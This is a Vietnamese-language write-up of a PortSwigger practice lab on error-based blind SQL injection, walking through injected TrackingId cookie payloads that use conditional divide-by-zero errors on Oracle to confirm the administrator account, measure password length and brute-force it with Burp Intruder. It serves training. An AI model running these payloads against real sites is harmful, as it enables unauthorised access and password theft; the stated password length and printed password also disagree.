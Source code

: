 

>🔍 Error-Based SQL Injection – PortSwigger Lab Writeup

Hello mọi người!Chào mừng đến với writeup đầu tiên của mình về khai thác SQL Injection để tìm mật khẩu của một tài khoản.Bài lab này được thực hiện trên nền tảng PortSwigger Web Security Academy.

>⚠️ Nếu bạn không có nền tảng về bảo mật, có thể sẽ hơi khó hiểu. Nhưng bạn có thể coi đây là các bước "hack mật khẩu" trong môi trường mô phỏng.Lưu ý: Đây chỉ là lab để luyện tập, trong thực tế hiện nay các web hiện đại đã bảo mật tốt hơn nhiều  



## condition error based SQLi

### Vấn đề của Blind SQLi 
Phản hồi của giao diện không thay đổi dù truy vấn SQL có trả về gt hay không. Ứng dụng không hiện thị dữ liệu truy vấn
`OR 1=1 OR 1==2` thì giao diện trả về giông nhau nen khong dùng duoc
### Tạo lỗi có điều kiện ( Conditional Error )
Cố tình gây lỗi trong câu truy vấn SQL nhưng trong DK bạn chèn vào là đúng

Khi lỗi xảy ra thì giao diện có thể hiện thị lỗi

`SELECT * FROM users WHERE username = '$input'`

`' AND (SELECT 1/0 FROM dual WHERE 'a'='a') -- `

### Thực hành
```sql
CASE 
    WHEN điều_kiện_1 THEN giá_trị_1
    WHEN điều_kiện_2 THEN giá_trị_2
    ...
    ELSE giá_trị_mặc_định
END
```
```sql
CASE biểu_thức
    WHEN giá_trị_1 THEN kết_quả_1
    WHEN giá_trị_2 THEN kết_quả_2
    ...
    ELSE kết_quả_mặc_định
END
```

Note: các nhánh phải cùng kiểu dữ liệu.



Ví dụ:
```sql
SELECT 
  CASE department_id
    WHEN 10 THEN 'HR'
    WHEN 20 THEN 'IT'
    ELSE 'Other'
  END AS department_name
FROM employees;
```


Khi điều kiện where đúng mới có dòng trả về nen mới thực thi select.
Ngược lại sẽ trả về 0 dòng nên không thực thi select.

### Giải lab
Chúng ta sẽ khai thác lỗi ở TrackingID
TrackingId thường là một giá trị cookie được server dùng để:
    Ghi lại hoạt động của người dùng (tracking).
    Liên kết với session hoặc log để phân tích hành vi.
    Tùy biến giao diện hoặc nội dung cho người dùng.

Chúng ta sẽ dùng burpsuite để khai thác lỗ hông này

Let's go!!!

-B1. thử trackingID có bị SQLi không
![alt text](image.png)
![alt text](image-1.png)

chèn `trackingID = abc'` thì bị lỗi còn abc'' thì không bởi vì nó sẽ hiểu là 
trackingID chuỗi thực tế là abc' ( vì '' là cách escape dấu ' )
-> có SQLi

-B2. thử `abc'||( select '' from dual)|| '`  . Nhớ đặt select trong dấu () nhé, nếu không nó sẽ không hiểu là nối chuỗi đâu!
trong oracle '' = NULL trong mysql
![alt text](image-2.png)

-> ta có thể biết hệ thống dung oracle( dual la bảng ảo trong oracle)
và server không filter, có thể chạy lệnh sql hợp lệ

-B3. thử truy vấn 1 bảng không có thật để chứng minh câu sql có được thực thi thực sự trên dữ liệu
backend hay không.

FROM dual: giống như bạn bắn tín hiệu, thấy "server có nghe".
FROM not_a_real_table: giống như bạn hỏi một câu khó, server nói "không có cái đó!" → server thật sự đang hiểu và trả lời SQL,
Để làm chắc chắn hơn có thẻ thực thi Sql vì đây là blind SQLi
![alt text](image-3.png)

-B4. Test điều kiện đúng/sai bằng lõi chia cho 00

`Cookie: TrackingId=WMIqZXutPPFpM9id'||(select CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE ''END from dual) ||'`
![alt text](image-4.png)
`Cookie: TrackingId=WMIqZXutPPFpM9id'||(select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE ''END from dual) ||'`
![alt text](image-5.png)

-B5. Kiểm tra sử tồn tại của administrator trong bảng users (Đề bài cho )

`Cookie: TrackingId=WMIqZXutPPFpM9id'||(select CASE WHEN (1=22) THEN TO_CHAR(1/0) ELSE ''END from users where username = 'administrator') ||'`
![alt text](image-6.png)
`Cookie: TrackingId=WMIqZXutPPFpM9id'||(select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE ''END from users where username = 'administrator') ||'`
![alt text](image-7.png)

-B6. Tính độ dài của password

![alt text](image-8.png) 
![alt text](image-9.png)

password có độ dài bằng 20 kí tự . 

B7. Brute force password.

Lab cho pw chỉ có kí từ a-z , 0-9 ( simple list). 
Đừng hỏi tại sao lại chỉ dùng list này để dò mật khẩu.

Bước này hãy dùng Intruder để brute nhé. Sau pro hơn minh sẽ dùng python(Hãy đợi writeup tiếp theotheo)
dùng như nào thì tự tìm hiểu nhé!

đây là ví dụ về kí tự đầu tiên
![alt text](image-10.png)

password ="sbeu5dvy8f"




